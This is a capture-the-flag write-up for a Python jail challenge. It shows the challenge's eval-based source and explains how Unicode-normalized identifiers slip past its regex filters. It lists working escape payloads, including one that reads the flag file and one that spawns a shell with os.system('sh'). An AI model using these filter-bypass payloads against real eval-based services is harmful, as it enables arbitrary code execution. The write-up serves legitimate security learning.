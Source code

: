 ## Jail Challenge: Horse with no Neighs (332)

Note: upsolved, but did a writeup because I found it interesting

### Description/Source

```py
#!/usr/bin/python3
import re
import random
horse = input("Begin your journey: ")
if re.search(r"[a-zA-Z]{4}", horse):
    print("It has begun raining, so you return home.")
elif len(set(re.findall(r"[\W]", horse))) > 4:
    print(set(re.findall(r"[\W]", horse)))
    print("A dead horse cannot bear the weight of all those special characters. You return home.")
else:
    discovery = list(eval(compile(horse, "<horse>", "eval").replace(co_names=())))
    random.shuffle(discovery)
    print("You make it through the journey, but are severely dehydrated. This is all you can remember:", discovery)

```

- We cannot have more than 4 `[a-zA-Z]` characters in a row.
- We cannot have more than 4 unique non-word characters (alphanumeric and underscore)

However we can bypass this by using unicode normalized characters which will not be matched by the first check (which only check the 52 upper and lower case characters), but will pass the second check because it is still considered alphanumeric

However in order to get a working payload, it needs to be nested into a generator or a list comprehension because after the compilation step, `co_names` are removed.

> co_names is a tuple containing the names used by the bytecode;

This can be seen using this piece of code

```py
test = "print(1)"
x = compile(test, "<test>", "eval")
print(x.co_names) #('print',)
test = "(print(1)for(x)in(1,))"
x = compile(test, "<test>", "eval")
print(x.co_names) # ()
```

The `co_names` will include the function name called (and subsequently removed) if it is not nested in a loop, and will crash the eval.

### Solves

1. @The.Moodle

```
((l)for(a)in("a")for(l)in(𝘰𝘱𝘦𝘯("\x2ff""lag\x2e""txt")))
```

2. @TheBadGod

```py
(bｒｅａｋｐｏｉｎｔ()for(x)in(1,))
```

3. @maple3142

```py
[bｒｅａｋｐｏｉｎｔ()for(x)in[1]]
```

4. @TWY

```py
(ᵉval(inpᵤt()) for i in (1,))
__import__('os').system('sh')
```

Piece of Code to check all Unicode characters that normalise weirdly

```py
import unicodedata

for i in range(0x110000):
    c = chr(i)
    if unicodedata.normalize('NFKC', c) != c:
        print(c, unicodedata.normalize('NFKC', c))
```

### Flag

```
uiuctf{my_challenges_always_have_unintended_solutions_and_i_am_less_okay_with_that}
```

### References

- https://docs.python.org/3/reference/lexical_analysis.html#identifiers
- https://lingojam.com/FancyTextGenerator
